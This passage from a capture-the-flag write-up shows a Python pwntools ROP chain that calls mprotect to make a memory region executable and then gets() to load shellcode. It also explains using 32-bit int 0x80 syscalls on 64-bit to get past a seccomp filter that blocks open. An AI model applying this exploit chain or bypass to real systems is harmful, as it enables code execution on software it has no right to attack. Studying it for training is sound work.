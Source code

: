 ![check-mprotect.png](images/check-mprotect.png)

We can see that the address changed its permission successfully. Now we will want to put our shellcode into that address. The payload above will be updated as follows:

```python
pop_rdx = libc.address + 0x00000000000c7f32
payload = b'A'*24
payload += flat(
	pop_rdi, 0x00000000404000,
	pop_rsi_r15, 0x1000, 0,
	pop_rdx, 7,
	libc.sym['mprotect'],

	pop_rdi, 0x00000000404a00,
	exe.plt['gets'],
	
	0x00000000404a00    # After done gets() will jump to this address which contains our shellcode
)
p.sendlineafter(b'stuff:', payload)
```

Execute script and we will be asked for input again. It's time to build our shellcode. 

### Stage 2: Input shellcode

To execute syscall read, we will need to open the file first. Unfortunately, we are not allow to execute open syscall. However, here is a trick: as we known, we can execute a syscall with instruction `syscall` (for 64 bit) or `int 0x80` (for 32 bit). Because 64 bit is larger than 32 bit, we can execute `int 0x80` on 64 bit with all the arguments are similar to what we do on 32 bit. In other words, if we want to execute `int 0x80`, we need to set rax, rbx, rcx and rdx but it just take first 32 bit of registers, which are eax, ebx, ecx and edx.

